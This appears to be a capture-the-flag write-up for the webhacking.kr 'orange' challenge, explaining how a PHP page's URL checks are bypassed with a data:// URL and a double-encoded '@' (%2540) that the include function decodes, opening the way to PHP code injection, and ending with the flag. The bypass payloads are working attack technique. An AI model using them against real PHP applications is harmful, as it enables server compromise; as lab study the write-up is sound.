


# webhacking orange Solution

It looks like SSRF, we can supply the `url` parameter.
```php
$url = $_GET['url'].".txt";
    if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");
    if(!preg_match("/http:\/\/webhacking.kr:10009\//",$url)) exit("invalid server");
    if(preg_match("/@|#|\(|\)|\\$|`|'|\"|_|{|}|\?/",$url)) exit("you are not orange");
    if((parse_url($url)['host'] !== "webhacking.kr") || (parse_url($url)['port'] !== 10009)) exit("invalid host or port");
    if(parse_url($url)['user'] || parse_url($url)['pass']) exit("you are not orange");
```

There are multiple checks, we need to build our payload step by step, to pass all the checks. Let's GO!

### *`filter_var($url, FILTER_VALIDATE_URL)`*
We need to supply valid URL, this is the [RFC2396](https://www.ietf.org/rfc/rfc2396).
This is the structure of valid URL: `<scheme>://<authority><path>?<query>`

### *`preg_match("/http:\/\/webhacking.kr:10009\//",$url)`*
We must supply this string inside our input: `http://webhacking.kr:10009/`

### *``preg_match("/@|#|\(|\)|\\$|`|'|\"|_|{|}|\?/",$url)``*
We can't supply any of this characters... so, trying to use `@` or `#` won't work... something like this:
`http://webhacking.kr:10009/@evil.com/` :|. 
So, this paper: [A New Era of SSRF](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) from Orange Tsai won't work.

### *`parse_url($url)['host'] !== "webhacking.kr") || (parse_url($url)['port'] !== 10009)`*
We must supply in the host `webhacking.kr` and in the port `10009`. For example, this won't work:
`http://blabla:1003/http://webhacking.kr/`.

### *`parse_url($url)['user'] || parse_url($url)['pass'])`*
Another mitigation, to stop us from manipulate the URL to treat the legit host as `username` or `passowrd`.

## ATTACK
We can insert this: `http://webhacking.kr:10009/,http://webhacking.kr:10009/` (notice the *,*). 
However we can also change the url scheme to data: `data://webhacking.kr:10009/,http://webhacking.kr:10009/`, and then we receive this response:


#### THE TRICK
All the parsing functions process the content without url-decoding it, but the `include` function decode it! so, let's try give this payload:
`data://webhacking.kr:10009/,http://webhacking.kr:10009/%2540`


WOW! if we can insert `@`, so we can insert also our php code :)

I wrote short script, you can use it: [orange.py]
```python
% scripts/orange.py
```


**Flag:** ***`FLAG{hardcore_from_7.1}`*** 
